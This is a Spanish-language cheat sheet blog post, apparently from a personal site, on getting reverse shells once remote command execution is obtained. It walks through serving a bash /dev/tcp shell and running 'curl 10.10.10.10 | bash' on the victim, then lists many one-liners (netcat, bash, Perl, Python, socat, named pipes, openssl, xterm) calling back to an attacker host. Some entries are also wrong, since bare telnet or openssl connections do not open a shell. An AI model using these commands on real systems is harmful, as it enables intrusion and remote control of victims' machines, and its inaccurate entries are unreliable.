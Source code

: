```yaml
---
title: Revershell cheet sheat
description: "Revershell cheet sheat"
published: true
pubDate: "2024-06-01"
heroImage: /assets/posts1/revershell/revershell.jpg
---
```


- Primeramente debes tener ejecucion remota de comandos, 
- luego verificar si hay curl  , lo haces con " which curl"
- luedo de la maquina atacante te abres un servidor http y creas un 
- index.html:

    ```
    	#!/bin/bash
    	bash -i >& /dev/tcp/10.10.10.10/443 0>&1
	```

- y te pones en escucha en la maquina atacante con:

	```
    	nc -nlvp 443 
    ```
- y ejecutas en la maquina victima lo siguiente 
 
	```
    	curl 10.10.10.10 | bash
	```
- obtendras una revershell(realizar tratamiento de la consola):

***********************
******MAS FORMAS*****
***********************

- Este comando usa netcat (nc) para establecer una conexión con el sistema atacante en la dirección IP especificada y 
- el puerto 443, y ejecuta una shell inversa para permitir al sistema atacante ejecutar comandos en el sistema objetivo.

    ```
    	nc -e /bin/sh X.X.X.X 443
    ```

- Este comando utiliza el intérprete de comandos "bash" y "redirecciones de descriptor de archivo" para establecer 
- una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

	```
	bash -i >& /dev/tcp/X.X.X.X/443 0>&1 
	```

- Este comando utiliza el lenguaje de programación Perl y las funciones de socket para establecer una conexión
de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.
 
	```
    	perl -e 'use Socket;$i="X.X.X.X";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    ```
- Este comando utiliza el lenguaje de programación Python y las funciones de socket para establecer una conexión de
 "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    ```
    	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("X.X.X.X",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    ```
---

- Este comando utiliza el programa socat para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.
- El comando crea un pseudo-TTY y lo conecta a través de un socket TCP.

    ```
    	socat file:tty,raw,echo=0 tcp-connect:X.X.X.X:443 
    ```
- Este comando utiliza OpenSSH para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" a través del puerto 443. 
- El comando habilita un tunel inverso (reverse tunnel) en el puerto 443 del sistema objetivo, que se conecta al puerto 443 del sistema atacante.

    ```
    	ssh -R 443:localhost:443 user@X.X.X.X  
    ```
- Este comando utiliza el protocolo Telnet para establecer una conexión con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443, luego ejecuta un comando shell remotamente a través de esa conexión.

    ```
    	telnet X.X.X.X 443
    ```
- Este comando utiliza pipes ( tuberías) y la herramienta netcat para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    ```
    	mknod backpipe p && nc X.X.X.X 443 0<backpipe | /bin/bash 1>backpipe
    ```

- Este comando utiliza el intérprete de comandos "bash" y redirecciones de descriptor de archivo para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    ```
    	/bin/bash -i > /dev/tcp/X.X.X.X/443 0<&1 2>&1
    ```

- Este comando utiliza la herramienta openssl para establecer una conexión SSL/TLS con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443, luego ejecuta un comando shell remotamente a través de esa conexión.

    ```
    	openssl s_client -quiet -connect X.X.X.X:443
    ```

- Este comando utiliza redirecciones de descriptor de archivo y sockets TCP para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    ```
    	exec 5<>/dev/tcp/X.X.X.X/443
    ```

- Este comando utiliza xterm, una terminal gráfica para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" en el puerto TCP/IP predeterminado para XDMCP (X Display Manager Control Protocol).

    ```
    	xterm -display X.X.X.X:0
    ```
